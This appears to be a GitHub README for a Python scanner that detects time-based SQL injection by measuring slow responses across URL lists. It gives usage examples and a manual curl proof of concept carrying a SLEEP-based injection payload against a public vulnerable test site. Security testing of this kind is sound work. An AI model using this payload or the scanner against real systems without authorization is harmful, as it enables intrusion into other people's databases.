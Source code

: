 # SQLi_Sleeps
It is a simple script that allows to find SQLi vulnerabilities, obtaining the response time greater than 20 seconds per medium and time-based injection.


```sh
usage: SQLi_Sleeps2.py [-h] -u URLS -d DATA [-c COOKIE]

Realiza una petición GET a múltiples URLs con diferentes datos.

options:
  -h, --help            show this help message and exit
  -u URLS, --urls URLS  Archivo de texto con las URLs a las que se les realizará la petición GET.
  -d DATA, --data DATA  Archivo de texto con los datos que se agregarán a las URLs.
  -c COOKIE, --cookie COOKIE
                        Cookie a incluir en la petición GET.

# Cookie simple
python3 script.py -u urls.txt -d data.txt -c "session=abc123"

# Múltiples cookies
python3 script.py -u urls.txt -d data.txt -c "session=abc123; user_id=456"

# Sin cookie
python3 script.py -u urls.txt -d data.txt

```

```sh
cat urls.txt | sed 's/FUZZ//g'
```
![image](https://user-images.githubusercontent.com/66162160/234191152-7f27d67b-2a32-476d-8668-0334b1ff08ae.png) <br>

## PoC

```sh
python3 SQLi_Sleeps2.py -u urls.txt -d data.txt
```

<img width="1206" height="543" alt="image" src="https://github.com/user-attachments/assets/a1833e75-be16-43f2-9de5-5ff9401dd427" /><br>

Manual analysis

```sh
time curl "http://testphp.vulnweb.com/search.php?test=query'XOR(SELECT(0)FROM(SELECT(SLEEP(5)))a)XOR'Z" -I <br>
```

<img width="890" height="241" alt="image" src="https://github.com/user-attachments/assets/ec7a995a-9965-481d-8361-a7e84cb8e282" /><br>
